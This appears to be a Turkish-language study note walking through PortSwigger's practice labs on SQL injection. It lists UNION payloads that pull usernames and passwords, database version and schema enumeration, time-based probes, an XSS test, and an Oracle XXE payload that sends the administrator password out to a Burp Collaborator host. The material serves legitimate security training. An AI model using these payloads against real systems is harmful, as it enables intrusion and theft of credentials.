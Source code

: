 <h1 align="center">PortSwigger SQL Labları ve Çözümleri</h1>

Bu link üzerinden PortSwigger'ın hazırladığı [*SQLi Cheat Sheet*](https://portswigger.net/web-security/sql-injection/cheat-sheet)'e ulaşabilirsiniz.

## Lab: SQL injection UNION attack, retrieving data from other tables
![image](https://github.com/grealyve/MDISec-Web-Security-and-Hacking-Notes/assets/41903311/4c57a4ac-6b70-44a8-9d4b-c937c5995c6c)
- Buna bakarak: SQL query’sinden dönen datanın ekranda print edilmesi senin için bir zaafiyet durumunda UNION ile daha kolay çözebileceğin anlamına gelir.
- MYSQL ve Postgresql de karşılaşılan tırnak hadisesi.
```
...?category=Accessories'
```
Internel Server Error görmen zaafiyet olması anlamına gelmiyor.
```
...?category=Accessories''
```
- 2 tane tırnak attığında errorun ortadan kalkıyor olması DB e giden syntax erroru çözdün demek oluyor yani SQLi var burda.
	- Accessories' and '1'='1 ile de çözebilirsin.
- 'Accessories' and '1'='1' bunu bu şekilde çözmektense,
- 'Accessories' and 1=1--' buna dönüştürürsen eğer # şekilnde mi --(Postgres için command line işareti) şeklinde mi çalışıyor ondan emin olursun. 
- Bundan emin olduktan sonra UNION ile ilerleyebilirsin.
```sql
Accessories' UNION SELECT null,null--
	UNION kullanmak için kolon sayısı aynı olması gerekiyor o yüzden 2 tane null yetti

mehmetince' UNION SELECT null,null--
	diğer veriler gelmemesi için

UNION SELECT username,password FROM users--
	username ve password kısmı lab girişinde söyleniyor.
```
## Lab: SWL injection UNION attack, retrieving multiple values in a single column
```sql
SELECT a,b,c,d FROM x WHERE y = 'Accessories'
```
- Eğer gelen datanın 2 kolonundan sadece tek bir kolonun datasını yazıyor ise;
```sql
UNION SELECT null,'metmet' FROM users--
```
#### kolonların type ları aynı olması gerekiyor burası çokomelli (Mysql istemez, Postgresql ister)
```sql
UNION SELECT null,CONCAT(username,':::MDISEC:::',password) FROM users--
```
- username ve password kolonlarını birleştiriyor arasına da :::MDISEC::: yazıyor
## Lab: SQL injection attack, querying the database type and version on Oracle
```sql
...accessories' UNION SELECT null,null FROM dual--

...accessories' UNION SELECT null,'mehmet' FROM dual--
	hangi kolonu alıyor onu anlamak için.

...accessories' UNION SELECT null,banner FROM v$version--
	SELECT banner FROM v$version şeklinde çalışıyor
```
- Bu datayı ekrana print ederken encoding yapmıyorsa XSS de olabilir. Gelen datayı değiştir, manipüle et.
```sql
UNION SELECT null,<svg onload=alert(1)> FROM v$version--
```
## Lab: SQL injection attack, querying the database type and version on MySQL and Microsoft [*Lab linki*](https://portswigger.net/web-security/sql-injection/examining-the-database/lab-querying-database-version-mysql-microsoft)
- Mysqlde -- boşluk ve yanına bir şey yazman lazım # yerine
```mysql
?category=MDISEC' UNION SELECT null,@@version#
	# yerine %23
```
## Lab: SQL injection attack, listing the database contents on non-Oracle databases [*Lab Linki*](https://portswigger.net/web-security/sql-injection/examining-the-database/lab-listing-database-contents-non-oracle)
```mysql
...?category=MDISEC' UNION SELECT 1,2 -- aasf
```
- hangi tip DB olduğunu öğrenmek için öncelikle böyle yaptık. 1,2 yazarak data tipleri farklı olan bir tabloymuş gibi istek attık Postgresql aynı istediği için hata verdi
```mysql
?category=MDISEC' UNION SELECT null,null -- aasf
```
- yazınca düzeldi
```mysql
?category=MDISEC' UNION SELECT null,table_name FROM information_schema.tables-- aasf''
?category=MDISEC' UNION SELECT null,table_name FROM information_schema.tables WHERE table_schema=current_schema()-- aasf
```
- sadece bizim şemaya ait tablo isimlerini getirmek istiyoruz
```mysql
?category=MDISEC' UNION SELECT null,column_name FROM information_schema.cloumns WHERE table_name='users_yhfrcv'--
```
- username ve şifre kolonlarını getirdi bize
```
MDISEC' UNION SELECT null,concat(username_ktovtr, ':::MDISEC:::', password_sgugwv) FROM users_yhfrcv--
```
## Lab: Blind SQL injection with out-of-band data exfiltration
1) category=Lifestyle'
2) category=Lifestyle''
  - Data gelmedi iki şekilde de sıkıntı var aga burda değil demekki


- ürünler üstünde deneyelim
1) productid=9'
	- hata geldi
2) productid=9''
	- yine hata geldi burada da değil o zaman
  - Bu kategorilerde data gelip gittiği için Blind değil, Error görmediğimiz için de error based hiç değil.
1) category=Lifestyle"
2) category=Lifestyle'--
	- olmuyor...
- Burp Suite başvurma zamanı
- Cookie kısmında TrackingId ' yapmayı denedi olmadı. Data eksilip artmadı.
	- TrackingId olsaydı, SQL INSERT sorgusunda sıkıntı olmuş olurdu
	- SessionId kısmına da aynısını yaptı yine olmadı.
  - Hala TrackingId den şüphelenmeye devam ediyor. Time Based payloadlar deniyor.
```sql
' -sleep(5)-'
'||pg_sleep(5)||'
```
- Şöyle bir şey de olabilir : 
  - Senden aldığı isteği direkt cevabını veriyor olabilir, arka tarafta da Background Job başlatır ve senden aldığı parametre ile iş yapar.
  - DB aldığı veriyi Queue'ya yazıyor onu da Worker'a veriyor. Burda Time Based SQLi işe yaramaz. SQLi çalışıyor ama arkadaki iş bekliyor.
- Dışarıyla iletişim kurmayı sağlatmak gerekiyor. Cookieleri noktalı virgüle(;) göre alıyor
  - TrackingId=ljashfuashuıeasjf';SELECT; session=asjfhasfhasoıjasd15811he281uıhur
	- yapsan bile noktalı virgüle(;) göre ayırdığı için cookieleri, bunları arkada nasıl ayıracak belli değil.
#### Lab sayfasında asenkron yazıyormuş :) Bu tür yapıları gerçek hayatta da exploit etmek zor whitebox testlerde rahat çıkartabiliyorsun.
##### Gerçek hayat senaryosunda şöyle bir şey gerçek olmaz : SELECT * FROM x WHERE y = ljashfuashuıeasjf
- INSERT sorgusu görürsün databasede. INSERT INTO X (a,b,c) VALUES ('','','ljashfuashuıeasjf')
- sleepi denemesinin sebebi de INSERT sorgusu varsa sleep eder diye.
```sql
INSERT INTO X (a,b,c) VALUES ('aaaaa'); ,'','ljashfuashuıeasjf')
```
- Bu kısım sıkıntı çıkartmaya başlar ; yüzünden
```sql
INSERT INTO X (a,b,c) VALUES ('','','A'||(SELECT)||'C')
```
- SubSELECT sorgusu atabiliyor muyuz onu kontrol ediyor. ORACLE olduğuna karar verdi
- Burp collaborator açtı en sol üstteki Burp sekmesinden. Asenkron yapı olduğu için başka bir websitesine istek attırtıyorsun zorla.
```sql
INSERT INTO X (a,b,c) VALUES ('','','A'||(SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE root [ <!ENTITY %25 remote SYSTEM "http://'||(SELECT YOUR-QUERY-HERE)||'.BURP-COLLABORATOR-SUBDOMAIN/"> %25remote;]>'),
'/l') FROM dual)||'C')
```
- Bu şekilde de olur
```sql
INSERT INTO X (a,b,c) VALUES ('','','A'||(SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE root [ <!ENTITY %25 remote SYSTEM "http://askfjgasjıs.BURP-COLLABORATOR-SUBDOMAIN/"'||(SELECT password FROM users WHERE username = 'administrator')||'> %25remote;]>'),
'/l') FROM dual)||'C')
```
- İsteği yolladıktan sonra Poll now tuşuna bas collaborator dan.

## Ekstra Not:
SQLmapte : * koyarak parametre vermiş oluyorsun
x.com/api/user/1*/get

